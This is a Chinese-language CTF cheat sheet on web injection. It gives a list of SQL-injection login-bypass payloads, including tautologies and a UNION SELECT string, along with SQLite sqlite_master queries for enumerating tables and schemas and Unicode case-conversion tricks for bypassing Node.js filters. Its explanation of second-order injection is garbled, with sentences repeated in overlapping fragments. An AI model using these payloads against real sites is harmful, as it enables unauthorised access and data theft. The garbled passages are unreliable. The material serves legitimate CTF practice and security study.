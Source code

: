 ```sql
or 4=4--
c
a'or' 4=4--
"or 4=4--
'or'a'='a
"or"="a'='a
'or''='
'or'='or'
1 or '1'='1'=1
1 or '1'='1' or 4=4
'OR 4=4%00
"or 4=4%00
'xor
admin' UNION Select 1,1,1 FROM admin Where ''='
1
-1%cf' union select 1,1,1 as password,1,1,1 %23
1
17..admin' or 'a'='a 密码随便
'or'='or'
something
' OR '1'='1
1'or'1'='1
admin' OR 4=4/*
1'or'1'='1
'or 4=4/* 
```

## 二次注入

- 由于开发者为了防御sql注入，使网站对我们输入的恶意语句中的一些重要的关键字进行了转义，使恶意的注入，使网站对我们输入的恶意语句中的一些重要的关键字进行了转义，使恶意的sql注入注入无法执行（比如说将单引号转义，使其无法闭合）无法执行（比如说将单引号转义，使其无法闭合）。
- 但是数据库存储我们的数据时，输入的恶意的语句又被还原成转义之前的语句（数据库又没有对存储的数据进行但是数据库存储我们的数据时，输入的恶意的语句又被还原成转义之前的语句（数据库又没有对存储的数据进行检查，默认存储的数据都是无害的）检查，默认存储的数据都是无害的）
- 这时仍然没有被攻击，但是当我们数据库在进行查询时，如果调用了这条信息，就可能会产生这时仍然没有被攻击，但是当我们数据库在进行查询时，如果调用了这条信息，就可能会产生sql注入。注入。

所以要说明的是，二次注入的产生是需要以上一些特定的条件的。所以二次注入一般比较难发现所以要说明的是，二次注入的产生是需要以上一些特定的条件的。所以二次注入一般比较难发现。
二次注入常出现的地方二次注入常出现的地方

- 用户注册和登陆用户注册和登陆
- 用户修改密码用户修改密码

`[October 2019]Twice SQL Injection`

在这道题里,info修改会在`'`前转义,但是在注册时用户名可以注入,在登录后进行二次注入

## sqlite数据库

```sql
sqlite的系统表sqlite_master
type 记录项目的类型，如table、index、view、trigger
name 记录项目的名称，如表名、索引名等
tbl_name 记录所从属的表名，如索引所在的表名。对于表来说，该列就是表名本身
rootpage 记录项目在数据库页中存储的编号。对于视图和触发器，该列值为0或者NULL
sql 记录创建该项目的SQL语句
所以使用select group_concat(name) from sqlite_master where type='table' 来查表名
使用select group_concat(sql) from sqlite_master where type='table' and name='xxxx'来获取建表语句从而得到字段名
```

## nodejs

### 大小写绕过

对于`toUpperCase()`:字符`"ı"`、`"ſ"`经过toUpperCase处理后结果为 "I"、"S"
对于`toLowerCase()`:字符`"K"`经过toLowerCase处理后结果为"k"(这个K不是K)
